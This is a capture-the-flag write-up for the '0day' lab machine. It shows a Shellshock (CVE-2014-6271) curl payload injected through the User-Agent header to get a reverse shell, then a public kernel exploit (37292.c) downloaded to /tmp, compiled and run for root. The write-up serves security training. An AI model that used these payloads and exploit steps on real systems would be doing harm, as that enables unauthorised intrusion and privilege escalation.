

# 0day


## Enumeration:


### initial\_scan:

<figure><figcaption></figcaption></figure>

We can see 2 ports open 22 for **ssh** and 80 for **HTTP**

### vulnerability\_scan:

using nikto by the command: nikto -h \<IP address>, we can make a scan of the vulnerabilities that the website might be vulnerable to.&#x20;

<figure><figcaption></figcaption></figure>

The website appears to be vulnerable to shellshock , which makes sense since the room description says: exploit ubuntu, like a turtle "as in shell" in a hurricane  "as in shock". so no need to do any more enumeration.

Awesome! :tada: We found the vulnerability , now let's learn how to exploit it by searching for the CVE provided in the scan results : "**CVE-2014-6271**"


### Reverse shell / USER.TXT flag:

We can exploit the shellshock vuln in many ways including metasploit, personally i prefere not to because starting Metasploit takes a long time :(&#x20;

one of the ways i found from this [source](https://www.sevenlayers.com/index.php/125-exploiting-shellshock) is we can grab a reverse shell using this vulnerability:


```sh
curl -H 'User-Agent: () { :; };<your reverse shell>' <the vulnerable website>
```


and if you are lazy like me you can craft your reverse shell easily using this [website](https://www.revshells.com/).

let's open a listening port to catch the reverse shell.

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

Navigating through the machine we can easily find the **user.txt** flag

&#x20;

<figure><figcaption></figcaption></figure>


### PRIV ESC / ROOT.TXT FLAG:

<figure><figcaption></figcaption></figure>

we can clearly see the OS is old . using a simple searchsploit search we can find this exploit.


<figure><figcaption></figcaption></figure>

let's upload the exploit into the machine in /tmp because it is usually writable.

<figure><figcaption><p>creating a server in local machine</p></figcaption></figure>

<figure><figcaption><p>downloading the exploit in the target machine</p></figcaption></figure>

make sure to enter this command in order for the compiler to work in the target machine

```sh
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

then&#x20;

```sh
/usr/bin/gcc 37292.c -o exploit
chmod +x exploit
./exploit
```

\


<figure><figcaption></figcaption></figure>

and just like that we have obtained the root flag ! :tada:
